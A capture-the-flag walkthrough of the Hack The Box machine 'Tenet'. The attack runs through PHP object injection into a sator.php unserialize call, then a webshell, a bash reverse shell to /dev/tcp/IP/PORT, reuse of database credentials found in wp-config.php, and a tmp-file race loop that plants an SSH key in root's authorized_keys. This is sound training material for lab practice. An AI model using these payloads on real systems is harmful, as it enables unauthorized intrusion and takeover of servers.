<div align="center">
	
</div>

| Name             | Tenet                                                                                                  |
| ------------- ---|:------------------------------------------------------------------------------------------------------:|
| Difficulty       | Medium                                                                                                 |
| Creator          | [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858)                                    |
| First user blood | [szymex73](https://www.hackthebox.eu/home/users/profile/139466) 00 days, 00 hours, 14 mins, 14 seconds |
| First root blood | [szymex73](https://www.hackthebox.eu/home/users/profile/139466) 00 days, 00 hours, 23 mins, 53 seconds |
| Metrics & Scores | |


Tenet is a medium linux box created by egotisticalSW involves these overall steps:
1. nmap scan
2. Browse port 80 and find php backup file and related virtual host
3. Discover the php deserialization vulnerability and getting RCE as www-data user
4. Enumerate inside  the server and find credentials -> neil user
5. Privilege escalation with race condition-> root user


## 1- nmap
Let's do a nmap scan of the box
```bash
$ ports=$(nmap -Pn -p- --min-rate=1000 -T3 10.10.10.223 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
$ nmap -Pn -sC -sV -p$ports 10.10.10.223
Nmap scan report for 10.10.10.223
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

as we see there are 2 ports open (22,80)\
Let's Browse port 80

## 2- explore webserver
After browsing the port 80 of the machine we get default page of apache web server\
Let's add tenet.htb to our hosts file and we see a wordpress website




There is an interesting comment
<br>





we know there is a `sator.php` file with a possible `.bak` extension. there is no `sator.php` nor `sator.php.bak` file on wordpress site.\
There may be another virtual host named `sator.tenet.htb`. We can guess it or we can brute force the host header to find it.
So lets add `sator.tenet.htb` to our hosts file

After opening the `sator.tenet.htb/sator.php` we see the file exists


as the comment said, we know there is a backup version of that file too. Let's open sator.tenet.htb/sator.php.bak
	
here is the source code of `sator.php` inside `sator.php.bak`
```php
<?php
class DatabaseExport{

        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }

        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();

?>
```
<br>

As we see user input named `arepo` in GET request is being unserialized directly without sanitization, so we can abuse this to inject our malicious php object

## 3- PHP Object Injection
For php object injection we should have a PHP Class with a specific magic method `__destruct` or `__wakeup`

Here we have a class named `DatabaseExport` with `__destruct` method which satisfies our condition

PHP objects are demonstrated like below

```php
O:6:"Person":2:{s:4:"name";s:7:"kourosh";s:3:"age";s:2:"25";}
```

For example, this object demonstrates a php object with
+ class name `Person` which has 6 characters
+ It has 2 fields:
	+  `name` (4 characters) with the value of `kourosh` (7 characters)
	+  `age` (3 characters) with the value of `99` (2 characters)

Now let's create our malicious object for this class<br>
```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"krypt.txt";s:4:"data";s:11:"hello world";}
```

After injecting this object these steps will happen
+ It will unserialize the object and since the className exists the unserialization would be successful
+ at the end the magic method `__destruct` will be executed
+ it will write to the file named `krypt.txt` the value of `hello world` which leads to an arbitrary file write on server


```http
GET /sator.php?arepo=O%3a14%3a"DatabaseExport"%3a2%3a{s%3a9%3a"user_file"%3bs%3a9%3a"krypt.txt"%3bs%3a4%3a"data"%3bs%3a11%3a"hello+world"%3b} HTTP/1.1
Host: sator.tenet.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Here is the result of php object injection which results in file write



For getting RCE we just need to write a php webshell into a php file
Our final payload for writing the php webshell to our php file will be like this<br>

```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"krypt.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}
```

<br>

```http
GET /sator.php?arepo=O%3a14%3a"DatabaseExport"%3a2%3a{s%3a9%3a"user_file"%3bs%3a9%3a"krypt.php"%3bs%3a4%3a"data"%3bs%3a30%3a"<%3fphp+system($_GET['cmd'])%3b+%3f>"%3b} HTTP/1.1
Host: sator.tenet.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Let's see the result of calling krypt.php



There we go, we have successfully executed `id` as www-data user, now let's get a reverse shell
```http
GET /krypt.php?cmd=/bin/bash+-c+"bash+-i+>%26+/dev/tcp/IP/PORT+0>%261" HTTP/1.1
Host: sator.tenet.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

and here we have the shell<br>



```bash
www-data@tenet:/var/www/html/wordpress$ cat /etc/passwd | grep -v "nologin\|false"
<rdpress$ cat /etc/passwd | grep -v "nologin\|false"
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
neil:x:1001:1001:neil,,,:/home/neil:/bin/bash
www-data@tenet:/var/www/html/wordpress$ 
```
<br>

If you want to learn more about PHP Object Injection read [OWASP](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)

## 4- user flag -> neil
Now we have a shell as `www-data` user, let's find a way to escalate to neil user\
The first thing I always check after getting shell is looking for config files\
Let's find the config files inside wordpress folder
```bash
$ find wordpress | grep "conf"
```



`wordpress/wp-config.php` looks interesting, let's open it and grep for `user` keyword\
If we grep for all define statements we see a lot of juicy stuff 

```php
$ www-data@tenet:/var/www/html$ cat wordpress/wp-config.php | grep -i user
/** MySQL database username */
define( 'DB_USER', 'neil' );
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 
 
$ www-data@tenet:/var/www/html$ cat wordpress/wp-config.php | grep -i define
cat wordpress/wp-config.php | grep -i define
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'neil' );
define( 'DB_PASSWORD', 'Opera2112' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
define( 'WP_HOME', 'http://tenet.htb');
define( 'WP_SITEURL', 'http://tenet.htb');
define( 'AUTH_KEY',         'QiuK;~(mBy7H3y8G;*|^*vGekSuuxKV$:Tc>5qKr`T}(t?+`r.+`gg,Ul,=!xy6d' );
define( 'SECURE_AUTH_KEY',  'x3q&hwYy]:S{l;jDU0D&./@]GbBz(P~}]y=3deqO1ZB/`P:GU<tJ[v)4><}wl_~N' );
define( 'LOGGED_IN_KEY',    'JrJ_u34gQ3(x7y_Db8`9%@jq<;{aqQk(Z+uZ|}M,l?6.~Fo/~Tr{0bJIW?@.*|Nu' );
define( 'NONCE_KEY',        '=z0ODLKO{9K;<,<gT[f!y_*1QgIc;#FoN}pvHNP`|hi/;cwK=vCwcC~nz&0:ajW#' );
define( 'AUTH_SALT',        '*.;XACYRMNvA?.r)f~}+A,eMke?/i^O6j$vhZA<E5Vp#N[a{YL TY^-Q[X++u@Ab' );
define( 'SECURE_AUTH_SALT', 'NtFPN?_NXFqW-Bm6Jv,v-KkjS^8Hz@BIcxc] F}(=v1$B@F/j(`b`7{A$T{DG|;h' );
define( 'LOGGED_IN_SALT',   'd14m0mBP eIawFxLs@+CrJz#d(88cx4||<6~_U3F=aCCiyN|]Hr{(mC5< R57zmn' );
define( 'NONCE_SALT',       'Srtt&}(~:K(R(q(FMK<}}%Zes!4%!S`V!KSk)Rlq{>Y?f&b`&NW[INM2,a9Zm,SH' );
define( 'WP_DEBUG', false );
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
```


And here we have username `neil` and password `Opera2112`\
yay we can ssh into the box with these credentials and here is the user flag



```bash
neil@tenet:~$ cat user.txt 
8a34****************************
neil@tenet:~$ 
```

## 5 - privilege escalation -> root flag

The first thing I check is `sudo -l` to see the privileges of current user as superuser

```bash
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
neil@tenet:~$ 
```

As we see we can run `/usr/local/bin/enableSSH.sh`  file as sudo
Let's check that file

```bash
neil@tenet:~$ cat /usr/local/bin/enableSSH.sh                                                                                                         
#!/bin/bash
	
checkAdded() {
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi
}                                                                                                                                                     

checkFile() {                                                                                                                                         
        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
				exit 1
        fi
}

addKey() {

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        (umask 110; touch $tmpName)
        /bin/echo $key >>$tmpName
        checkFile $tmpName
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        /bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"

addKey
checkAdded
```

addkey function looks interesting
1. It's making a tmp name like `/tmp/ssh-XXXXXXXX` and echo the hardcoded ssh public key to that tmp file
2. cat the tmp file which contains ssh public key and write it to root's `authorized_keys`

We don't have that private key so we can't login to the box as root.
But we can also change the content of that tmp file with race condition before reading and writing to root `authorized_keys`(we should check if that tmp file exists or not before overwriting it)\
Let's create our SSH Key to replace below
```bash
ssh-keygen                                                                                                                 1 ✘  2.7.2  
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kourosh/.ssh/id_rsa): ./root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./root
Your public key has been saved in ./root.pub
```

I wrote the following bash script to automatically check for tmp files so if they exist it will overwrite them with our ssh public key

```bash
rm -rf /tmp/ssh*
while true
do 
    if test -f /tmp/ssh*; then 
        echo SSH-PUBLIC-KEY > /tmp/ssh*
    fi
done
```

After running the code we used a race condition bug and wrote our ssh public key to the root `authorized_keys` so we could login to the box with the `root` user



```
root@tenet:~# cd /root/
root@tenet:~# cat root.txt 
42b5****************************
root@tenet:~# 
```

Finish!
by [KRyptonZ](https://www.hackthebox.eu/home/users/profile/372989)
